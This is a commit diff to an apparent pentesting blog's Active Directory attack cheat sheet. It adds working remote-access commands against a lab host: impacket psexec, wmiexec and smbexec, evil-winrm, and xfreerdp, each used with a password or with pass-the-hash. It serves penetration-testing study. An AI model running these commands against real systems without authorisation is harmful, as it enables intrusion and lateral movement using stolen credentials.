

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 10380 px. Shown: the whole window at 91% size, without its empty margins (228-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -354,14 +354,43 @@
 https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview
 ### Impacket PsExec, WmiExec and SMBExec - SMB Shell Access with Password or Pass-the-Hash
 ```shell
+# Using Password
+# impacket-psexec with password
+impacket-psexec Administrator:'Password123!'@172.16.150.10
+impacket-psexec vorkharium.com/Administrator:'Password123!'@172.16.150.10
+# impacket-wmiexec with password
+impacket-wmiexec Administrator:'Password123!'@172.16.150.10
+impacket-wmiexec vorkharium.com/Administrator:'Password123!'@172.16.150.10
+# impacket-smbexec with password
+impacket-smbexec Administrator:'Password123!'@172.16.150.10
+impacket-smbexec vorkharium.com/Administrator:'Password123!'@172.16.150.10
 
+# Using Hash (Pass-the-Hash)
+# impacket-psexec with hash
+impacket-psexec Administrator@172.16.150.10 -hashes :1a06b4248879e68a498d3bac51bf91c9
+impacket-psexec vorkharium.com/Administrator@172.16.150.10 -hashes :1a06b4248879e68a498d3bac51bf91c9
+# impacket-wmiexec with hash
+impacket-wmiexec Administrator@172.16.150.10 -hashes :1a06b4248879e68a498d3bac51bf91c9
+impacket-wmiexec vorkharium.com/Administrator@172.16.150.10 -hashes :1a06b4248879e68a498d3bac51bf91c9
+# impacket-smbexec with hash
+impacket-smbexec Administrator@172.16.150.10 -hashes :1a06b4248879e68a498d3bac51bf91c9
+impacket-smbexec vorkharium.com/Administrator@172.16.150.10 -hashes :1a06b4248879e68a498d3bac51bf91c9
 ```
 ### Evil-WinRM - Access WinRM with Password or Pass-the-Hash
 ```shell
-
+# With Password
+evil-winrm -i 172.16.150.10 -u Administrator -p 'Password123!'
+# With Hash
+evil-winrm -i 172.16.150.10 -u Administrator -H 1a06b4248879e68a498d3bac51bf91c9
 ```
 ### xfreerdp - Access RDP with Password or Pass-the-Hash
 ```shell
+# Create "/home/kali/share" before using it - This folder will allow us to move files easily from inside the xfreerdp session
+# Example 1
+xfreerdp /u:Administrator /p:'Password123!' /v:172.16.150.10 /drive:share,/home/kali/share
+sudo xfreerdp /u:Administrator /p:'Password123!' /v:172.16.150.10 /drive:share,/home/kali/share
+# Example 2
+xfreerdp /cert-ignore /auto-reconnect /h:1000 /w:1600 /v:172.16.150.10 /u:Administrator /p:'Password123!' /d:vorkharium.com /drive:share,/home/kali/share
 
 ```
 ### Kerberoasting with Impacket
````
